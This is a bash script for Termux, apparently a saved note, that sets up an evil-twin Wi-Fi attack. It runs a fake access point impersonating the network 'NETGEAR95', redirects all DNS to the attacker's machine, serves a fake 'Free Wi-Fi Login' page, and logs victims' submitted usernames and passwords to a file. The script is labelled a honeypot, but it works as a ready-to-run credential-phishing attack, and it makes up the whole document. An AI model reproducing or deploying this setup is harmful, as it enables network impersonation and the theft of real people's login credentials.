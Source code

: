 ```yaml
---
created: 2025-07-19T09:58:09-04:00
updated: 2025-07-19T09:58:16-04:00
---
```


#!/data/data/com.termux/files/usr/bin/bash

# Step 1: Install required packages
pkg update -y && pkg upgrade -y
pkg install -y hostapd dnsmasq openssh python httpd nmap

# Step 2: Configure hostapd (Fake Access Point)
cat <<EOF > ~/hostapd.conf
interface=wlan0
driver=nl80211
ssid=NETGEAR95
hw_mode=g
channel=6
wmm_enabled=0
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=Chris1991
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF

# Step 3: Configure dnsmasq (DHCP + DNS)
cat <<EOF > ~/dnsmasq.conf
interface=wlan0
dhcp-range=10.0.0.100,10.0.0.200,255.255.255.0,12h
dhcp-option=3,10.0.0.223
dhcp-option=6,75.75.75.75,75.75.76.76
address=/#/10.0.0.223
log-queries
listen-address=10.0.0.223
EOF

# Step 4: Create fake login page
mkdir -p ~/honeypot/www
cat <<EOF > ~/honeypot/www/index.html
<!DOCTYPE html>
<html>
  <head>
    <title>Free Wi-Fi Login</title>
  </head>
  <body>
    <h2>Welcome to NETGEAR95</h2>
    <form method="POST" action="/login">
      Username: <input type="text" name="user"><br>
      Password: <input type="password" name="pass"><br>
      <input type="submit" value="Login">
    </form>
  </body>
</html>
EOF

# Step 5: Create login handler to log fake credentials
cat <<EOF > ~/honeypot/server.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs

class HoneypotHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        with open("www/index.html", "rb") as f:
            self.wfile.write(f.read())

    def do_POST(self):
        content_len = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_len).decode()
        creds = parse_qs(post_body)
        with open("creds.log", "a") as f:
            f.write(f"Captured: {creds}\\n")
        self.send_response(302)
        self.send_header('Location', '/')
        self.end_headers()

print("🕵️ Honeypot server running at http://0.0.0.0:80")
httpd = HTTPServer(('0.0.0.0', 80), HoneypotHandler)
httpd.serve_forever()
EOF

# Step 6: Start services (if supported)
echo "[*] Starting Fake Access Point..."
hostapd ~/hostapd.conf &

echo "[*] Starting dnsmasq..."
dnsmasq -C ~/dnsmasq.conf &

echo "[*] Starting Honeypot web server..."
cd ~/honeypot
python server.py
